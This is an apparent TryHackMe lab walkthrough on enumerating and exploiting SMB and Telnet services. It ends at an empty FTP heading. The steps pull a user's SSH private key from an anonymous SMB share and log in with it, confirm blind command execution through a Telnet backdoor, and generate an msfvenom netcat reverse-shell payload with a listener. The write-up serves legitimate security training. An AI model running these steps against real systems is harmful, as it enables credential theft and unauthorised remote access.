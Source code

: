 # TryHackMe Walkthrough: Network Services

📅 Date: 2025-02-04  
🔍 Difficulty Level: Easy 

🖥️ Category: Enumeration, Exploitation.  
🎯 Objective: Learn about, then enumerate and exploit a variety of network services and misconfigurations.

## 🛠1️⃣ **Enumerating SMB**
### 🔎 **Network Scanning**
**Command used:**
```bash
nmap -p- --open <target-IP>
```
**Findings:**
The scan revealed the following three open ports,
1. 22/tcp (ssh)
2. 139/tcp (netbios-ssn)
3. 445/tcp (microsoft-ds)
   
SMB is running on port 139 and 445.


Enum4linux is a tool used to enumerate SMB shares on both Windows and Linux systems.

**Command used** to conduct a full basic enumeration using Enum4linux:
```bash
enum4linux -a <target-IP>
```
**Findings:**

Workgroup name: WORKGROUP

![Screenshot (51)](https://github.com/user-attachments/assets/976f9812-a794-4eb3-bbf3-3a20f6dae28a)

Name of the machine: POLOSMB

Operating System version running: 6.1

![Screenshot (53)](https://github.com/user-attachments/assets/6a719092-08de-436e-9134-240333c522a4)

The share that sticks out as something we may want to investigate: profiles

![Screenshot (54)](https://github.com/user-attachments/assets/9c159062-a37f-43d7-b52e-7e48599a3dc2)

Why?
1. It is mapped successfully meaning that I have access to it.
2. It allows listing, which means that I can browse its contents.
3. Profiles usually store user data, which when misconfigured, can contain credentials or sensitive files.



## 📂2️⃣ **Exploiting SMB**

We're going to be exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell. 
We want to see if the profiles share does not require authentication to view the files.

**Command used:**
```bash
smbclient //<target-IP>/profiles -U Anonymous -p 445
```

**Findings:**

The share allows for anonymous access without providing a password. I also used the ls command to look for interesting documents that could contain valuable information.

![Screenshot (58)](https://github.com/user-attachments/assets/cd4f49c6-ca0b-4976-93ed-5355e41580a5)

The "Working From Home Information.txt" is the document that appeared interesting and took a look into it by using the command below:

```bash
smb: \> more "Working From Home Information.txt"
```

![Screenshot (57)](https://github.com/user-attachments/assets/d40f3292-be0d-407a-9d9d-42816e346d1d)

We can assume that this profile folder belongs to John Cactus. The ssh service has been configured to allow him to work from home meaning that the directory in the share that we should look into is .ssh.

The .ssh directory has a directory that contains authentication keys that allow a user to authenticate themselves on, and access a server. Of these keys, the one that is most useful to us is: id_rsa

I got to this directory by changing to the .ssh directory using the *cd .ssh* command then listed the contents in it using *ls*.

![Screenshot (60)](https://github.com/user-attachments/assets/b82501fd-d32c-48c6-ad30-963f2b34515e)

Now I will be using all the information I gathered to work out the username of the account. Then, use the service and key to log-in to the server.

Firstly, I had to download the id_rsa file into my local machine. I did that by using the command below:

```bash
smb: \> get .ssh/id_rsa id_rsa
```
I then used an exit command to return to my root directory.

I used the *ls* command to see if the id_rsa file had downloaded successfully in my local machine and indeed it had.

![Screenshot (61)](https://github.com/user-attachments/assets/100693d3-2a44-421d-af66-3c6630197d9c)

I then used the *ls -la* command to look list the files in the root directory and their permissions. 

![Screenshot (62)](https://github.com/user-attachments/assets/614e460f-f0e7-405d-bffd-c9c45c5e82e9)


I however changed the id_rsa permissions to 600 using:

```bash
chmod 600 id_rsa
```

This changes the file permissions to allow only the owner to read and write the file. 600 ensures secure SSH key usage, preventing other users from reading or modifying it.

After working out the username of the account, I entered the command below to direct me there. I then received a propt asking me if I was sure that I wanted to continue connection, said yes then I was in.

```bash
ssh -i id_rsa cactus@<target-IP> 
```

I then used the service and key to log in to the server.

![Screenshot (64)](https://github.com/user-attachments/assets/ddf28bd6-2a3b-40cc-9c64-d067e7b4a641)



## 🔌 3️⃣ **Enumerating Telnet** 

Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that is hosting a telent server. The lack of encyption, means that all telnet communication is in plaintext thus making it very vulnerable to exploits.

To enumerate, we will start out the same way we normally do, by doing a port scan, to find out as much information as we can about the services, applications, structure and operating system of the target machine.

**Command used:**

```bash
nmap -p- --open <target-IP> 
```

**Findings:**
1. There is one open port which is 8012/tcp.
2. Upon re-running the scan to look for all open ports exlusing " *-p-* ", I found that there's zero open ports. Here, we see that by assigning telnet to a non-standard port, it is not part of the common ports list, or top 1000 ports, that nmap scans.

Next, I looked for a clue of what the port could be used for as well as the possible usernames.

**Command used:**
```bash
nmap -sV -p 8012 <target-IP> 
```

**Findings:**

![Screenshot (67)](https://github.com/user-attachments/assets/eb2ab632-6618-484d-8236-cff23c7c7b06)


1. Based on the results and repeated title, I think the port could be used as a backdoor.
2. This backdoor could belong to Skidy.


## 🔓 4️⃣ Exploiting Telnet: Breaking into the Shell  

Using the information gathered from the enumeration stage, I will try accessing the telnet port, and using that as a foothold to get a full reverse shell on the machine. A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

Firstly, I connected to the telnet port.

**Command used:**
```bash
telnet <target-IP> 8012
```

**Findings:**

![Screenshot (68)](https://github.com/user-attachments/assets/06db79b7-09ef-474d-b84c-40b7eb7e9ec7) 


1. It was an open telnet connection, and received a welcome message: SKIDY'S BACKDOOR.
2. By trying to execute some commands, there was no return on any input entered into the telnet connection. Strange.

Now, I resort to checking to see if what I was typing was being executed as a system command by starting a tcpdump listener on my machine.


**Command used:**
```bash
sudo tcpdump ip proto \\icmp -i ens5
```

After startimg that tcpdump listener, on a separate terminal I used the command "**ping [local THM IP] -c 1**" through the tenet session to see if we're able to execute system commands, and as per the screenshot below, now we are able to execute system commands and reach our local machine.

![Screenshot (69)](https://github.com/user-attachments/assets/138d4513-8b76-48f5-aa5e-21254e17f707)

Now I am going to generate a reverse shell payload using **msvenom** . This will generate and encode a netcat reverse shell for us.

**Command used:**
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=<target-IP> lport=4444 R
```

**Findings:**
1. The generated payload starts with mkfifo. We are nearly there...

![Screenshot (70)](https://github.com/user-attachments/assets/25dca7d9-438d-4cc2-b284-e4c5c5bf2cb0)

Now all we need to do is start a netcat listener on our local machine. We do this using the command below:

```bash
nc -lvnp 4444
```

## 📂 5️⃣ Enumerating FTP


